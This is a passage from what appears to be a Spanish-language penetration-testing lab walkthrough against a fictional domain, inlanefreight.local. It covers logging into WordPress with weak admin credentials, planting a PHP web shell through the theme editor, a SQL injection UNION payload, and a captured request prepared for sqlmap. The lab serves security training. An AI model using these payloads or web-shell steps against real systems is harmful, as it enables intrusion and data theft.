 Desde aquí, podemos navegar a `http://ir.inlanefreight.local/wp-login.php` e iniciar sesión usando las credenciales `ilfreightwp:password1`. Una vez conectados, seremos dirigidos a `http://ir.inlanefreight.local/wp-admin/` donde podemos navegar a `http://ir.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty` para editar el archivo 404.php para el tema inactivo `Twenty Twenty` y agregar un web shell en PHP para obtener la ejecución remota de comandos. Después de editar esta página y lograr la ejecución de comandos siguiendo los pasos en la sección [Attacking WordPress](https://academy.hackthebox.com/module/113/section/1208) del módulo `Attacking Common Applications`, podemos registrar otro hallazgo: `Weak WordPress Admin Credentials` y recomendar a nuestro cliente implementar varias medidas de fortalecimiento si planean dejar este sitio de WordPress expuesto externamente.

---

## status.inlanefreight.local

Este sitio parece ser otro olvidado que no debería estar expuesto a internet. Parece ser algún tipo de aplicación interna para buscar en registros. Ingresar una sola comilla (`'`) arroja un mensaje de error de MySQL que indica la presencia de una vulnerabilidad de inyección SQL: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1`. Podemos explotar esto manualmente usando una carga útil como:


```r
' union select null, database(), user(), @@version -- //
```

Este es un ejemplo de un [SQL Injection UNION attack](https://academy.hackthebox.com/module/33/section/806).

También podemos usar sqlmap para explotar esto. Primero, capturamos la solicitud POST usando Burp, la guardamos en un archivo y marcamos el parámetro `searchitem` con un `*` para que sqlmap sepa dónde inyectar.



```r
POST / HTTP/1.1
Host: status.inlanefreight.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://status.inlanefreight.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://status.inlanefreight.local/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=s4nm572fgeaheb3lj86ha43c3p
Connection: close

searchitem=*
```
